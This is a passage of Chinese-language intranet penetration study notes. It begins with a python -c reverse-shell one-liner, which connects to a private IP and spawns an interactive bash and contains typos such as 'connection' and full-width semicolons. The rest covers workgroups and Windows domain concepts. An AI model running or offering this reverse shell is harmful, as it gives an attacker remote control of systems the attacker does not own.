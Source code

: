 整理一下，用 `python -c` 执行时，整个 `python` 代码需要放在引号中，每行用分号隔开，注意引号的转义或用单双引号区分开

`python -c "import socket, subprocess, os; s = socket.socket(socket.AF_INET, socket.SOCK_STREAM);s.connection(('192.168.xx.xx', 8080));os.dup2(s.fileno(), 0);os.dup2(s.fileno(), 1)；os.dup2(s.fileno(), 2)；p = subprocess.call(['/bin/bash', '-i'])"`



## 域环境



###  内网介绍

>内网也称之为局域网，是指在某一个区域内由多态计算机互连而成的计算机组。
>
>在局域网中，可以实现文件管理、应用软件共享、打印机共享、工作组内的日程安排、电子邮件和传真通信服务等。
>
>内网是封闭的，可以由办公室内的两台计算机组成，也可以由一个公司内的大量计算机组成。

#### 工作组介绍

##### 工作组的概念

> 在一个大型单位，可能会有成百上千台计算机互相连接组成局域网，如果不对其进行分组，那是相当混乱的。
>
> 工作组（`Work Group`）就是为了解决这一问题。将不同的计算机按功能（或部门，或其他分类）分别列入不同的工作组

##### 如何创建工作组合加入工作组

加入工作组：右键【计算机】， 选择【属性】，【更改设置】（`Win10` 选择【高级系统设置】），【更改】，在【计算机名】处输入计算机名称，在【工作组】处输出要加入的工作组名称，重启电脑，进入【网络】就可以看到同一个工作组的成员了



#### 域介绍

> `Windows` 域是计算机网络的一种形式，其中所有用户计算机、打印机和其他安全主体都在位于称为**域控制器**的一个或多个中央计算机集群上的中央数据库中注册。
>
> 身份验证在域控制器上进行。
>
> 在域中使用计算机的每个人都会收到一个唯一的用户账户，然后可以为该账户分配对该域内资源的访问权限。
>
> **域（`Domain`）**是一个有安全边界的计算机集合（安全边界的意思是，如果在两个域中，域`A`中的用户无法访问域`B`中的资源），可以把域理解成升级版的工作组，与工作组相比，域的安全管理控制机制更加严格。用户想要访问域内的资源，必须以合法的身份登录域，而用户对域内的资源拥有什么样的权限，还取决于用户在域内的身份。

##### 单域

> 通常在一个地理位置固定的大公司里，建立一个域就可以满足需求。在一个域内，一般要至少两台域服务器，一台作为 `DC`，另一台作为备份 `DC`。
>
> 活动目录的数据库（包括用户的账号信息）时存储在 `DC` 中的，如果没有备份 `DC`，一旦 `DC` 瘫痪了，域内的其他用户就不能登录该域了。

##### 父域和子域

> 出于管理及其他需求，需要在网络中划分多个域。第一个域称为**父域**，各分部的域称为该域的**子域**。

##### 域树
